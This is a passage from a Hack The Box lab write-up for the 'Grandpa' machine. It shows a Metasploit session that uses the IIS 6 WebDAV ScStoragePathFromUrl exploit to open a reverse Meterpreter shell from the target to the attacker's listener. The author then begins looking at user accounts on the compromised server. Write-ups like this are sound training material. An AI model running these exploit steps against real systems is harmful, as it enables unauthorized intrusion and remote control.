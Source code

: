 ```console
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86

msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.14
RHOSTS => 10.10.10.14
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Trying path length 3 to 60 ...
[*] Sending stage (176195 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.14:1030) at 2020-07-23 21:45:25 -0500

meterpreter >
```

getuid failed within meterpreter so I dropped to a shell and discovered I'm running as NETWORK SERVICE.  Poking around the file system I do see a user "Harry" in C:\Documents and Settings\

![docsandsettings](/assets/images/HTBoxes/Grandpa/docsandsettings.png)

### User

After some poking around, I wasn't sure how to pivot to 'Harry' so I dropped back to the meterpreter shell and checked the sysinfo.
